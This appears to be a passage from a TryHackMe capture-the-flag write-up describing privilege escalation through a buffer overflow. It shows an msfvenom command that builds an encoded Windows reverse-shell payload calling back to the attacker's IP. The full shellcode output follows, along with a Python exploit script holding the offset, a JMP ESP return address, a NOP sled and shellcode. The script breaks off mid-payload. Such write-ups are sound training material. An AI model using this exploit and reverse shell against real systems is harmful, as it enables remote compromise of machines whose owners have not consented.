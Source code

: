 ## Privilege escalation

Generate meterpreter payload with `msfvenom` (`tun0` IP address of KALI on the THM network):

    msfvenom -p windows/shell_reverse_tcp LHOST=10.18.22.77 LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of c file: 1506 bytes
    unsigned char buf[] = 
    "\xda\xcf\xd9\x74\x24\xf4\xb8\x4e\x9a\xa4\x81\x5a\x33\xc9"
    "\xb1\x52\x83\xc2\x04\x31\x42\x13\x03\x0c\x89\x46\x74\x6c"
    "\x45\x04\x77\x8c\x96\x69\xf1\x69\xa7\xa9\x65\xfa\x98\x19"
    "\xed\xae\x14\xd1\xa3\x5a\xae\x97\x6b\x6d\x07\x1d\x4a\x40"
    "\x98\x0e\xae\xc3\x1a\x4d\xe3\x23\x22\x9e\xf6\x22\x63\xc3"
    "\xfb\x76\x3c\x8f\xae\x66\x49\xc5\x72\x0d\x01\xcb\xf2\xf2"
    "\xd2\xea\xd3\xa5\x69\xb5\xf3\x44\xbd\xcd\xbd\x5e\xa2\xe8"
    "\x74\xd5\x10\x86\x86\x3f\x69\x67\x24\x7e\x45\x9a\x34\x47"
    "\x62\x45\x43\xb1\x90\xf8\x54\x06\xea\x26\xd0\x9c\x4c\xac"
    "\x42\x78\x6c\x61\x14\x0b\x62\xce\x52\x53\x67\xd1\xb7\xe8"
    "\x93\x5a\x36\x3e\x12\x18\x1d\x9a\x7e\xfa\x3c\xbb\xda\xad"
    "\x41\xdb\x84\x12\xe4\x90\x29\x46\x95\xfb\x25\xab\x94\x03"
    "\xb6\xa3\xaf\x70\x84\x6c\x04\x1e\xa4\xe5\x82\xd9\xcb\xdf"
    "\x73\x75\x32\xe0\x83\x5c\xf1\xb4\xd3\xf6\xd0\xb4\xbf\x06"
    "\xdc\x60\x6f\x56\x72\xdb\xd0\x06\x32\x8b\xb8\x4c\xbd\xf4"
    "\xd9\x6f\x17\x9d\x70\x8a\xf0\xa8\x96\x82\x4d\xc5\x94\xaa"
    "\x5c\x49\x10\x4c\x34\x61\x74\xc7\xa1\x18\xdd\x93\x50\xe4"
    "\xcb\xde\x53\x6e\xf8\x1f\x1d\x87\x75\x33\xca\x67\xc0\x69"
    "\x5d\x77\xfe\x05\x01\xea\x65\xd5\x4c\x17\x32\x82\x19\xe9"
    "\x4b\x46\xb4\x50\xe2\x74\x45\x04\xcd\x3c\x92\xf5\xd0\xbd"
    "\x57\x41\xf7\xad\xa1\x4a\xb3\x99\x7d\x1d\x6d\x77\x38\xf7"
    "\xdf\x21\x92\xa4\x89\xa5\x63\x87\x09\xb3\x6b\xc2\xff\x5b"
    "\xdd\xbb\xb9\x64\xd2\x2b\x4e\x1d\x0e\xcc\xb1\xf4\x8a\xec"
    "\x53\xdc\xe6\x84\xcd\xb5\x4a\xc9\xed\x60\x88\xf4\x6d\x80"
    "\x71\x03\x6d\xe1\x74\x4f\x29\x1a\x05\xc0\xdc\x1c\xba\xe1"
    "\xf4";
                                                  
Replacing the shellcode in the script:

```python
import socket

ip = "10.10.56.225"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xC3\x14\x04\x08"           # JMP ESP address 080414C3
padding = "\x90"*16
postfix = ""

payload =  (
"\xba\xed\xb1\x69\x1e\xd9\xcc\xd9\x74\x24\xf4\x5e\x33\xc9"
"\xb1\x59\x31\x56\x14\x83\xee\xfc\x03\x56\x10\x0f\x44\x95"
"\xf6\x40\xa7\x66\x07\x3e\x21\x83\x36\x6c\x55\xc7\x6b\xa0"
"\x1d\x85\x87\x4b\x73\x3e\x97\xfc\x3e\x18\x96\xfd\x34\x16"
"\xf0\x30\x8b\x7b\x3c\x53\x77\x86\x11\xb3\x46\x49\x64\xb2"
"\x8f\x1f\x02\x5b\x5d\xf7\x67\xf1\x72\x7c\x35\xc9\x73\x52"
"\x31\x71\x0c\xd7\x86\x05\xa0\xd6\xd6\x6e\x60\xf9\x5d\x38"
```